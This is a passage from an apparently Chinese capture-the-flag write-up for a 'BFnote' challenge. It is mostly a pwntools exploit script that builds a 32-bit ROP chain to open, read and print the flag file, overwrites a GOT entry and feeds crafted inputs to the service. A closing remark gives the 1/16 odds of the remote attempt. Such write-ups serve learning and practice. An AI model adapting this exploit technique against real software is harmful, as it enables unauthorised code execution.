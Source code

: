 ```
    payload += p32(pp__ret)
    payload += p32(flag_st)                            # file name
    payload += p32(read_md)                            # open mode

    payload += p32(BFnote.plt['read'])
    payload += p32(ppp_ret)
    payload += p32(3)                                  # fd
    payload += p32(flag_st + 0x40)                     # buf
    payload += p32(0x40)                               # size

    payload += p32(BFnote.plt['read'])
    payload += p32(ppp_ret)
    payload += p32(0)                                  # fd
    payload += p32(BFnote.got['read'])                 # buf
    payload += p32(1)                                  # size

    payload += p32(BFnote.plt['read'])
    payload += p32(ppp_ret)
    payload += p32(1)                                  # fd
    payload += p32(flag_st + 0x40)                     # buf
    payload += p32(0x40)                               # size
    sh.recvuntil('nGive your description : ')
    sh.sendline('A' * 0x32 + 'AAAA' + p32(0) + p32(0x804A460 + 4))
    sh.recvuntil('Give your postscript : ')
    sh.sendline(payload)
    sh.recvuntil('nGive your notebook size : ')
    sh.sendline(str(int(0x24000)))
    sh.recvuntil('Give your title size : ')
    sh.sendline(str(int(0x2570C - 0x10)))
    sh.recvuntil('invalid ! please re-enter :n')
    sh.sendline(str(int(0x10)))
    sh.recvuntil('nGive your title : ')
    sh.sendline('x00' * 0xF)
    sh.recvuntil('Give your note : ')
    sh.send('A' * 4)

    raw_input('&gt;')
    sh.send(p16((sh.libc.address+0x5e400) &amp; 0xffff))

    raw_input('&gt;')
    sh.send('x70')

    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```

⚠️：sh.libc.address在remote模式下不可用，需要写死后两个字节，1/16的运行成功几率。

### <a class="reference-link" name="%E6%9E%84%E9%80%A0ROP%E9%93%BE%E2%80%94%E2%80%94%E6%80%9D%E8%B7%AF%E4%BA%8C"></a>构造ROP链——思路二
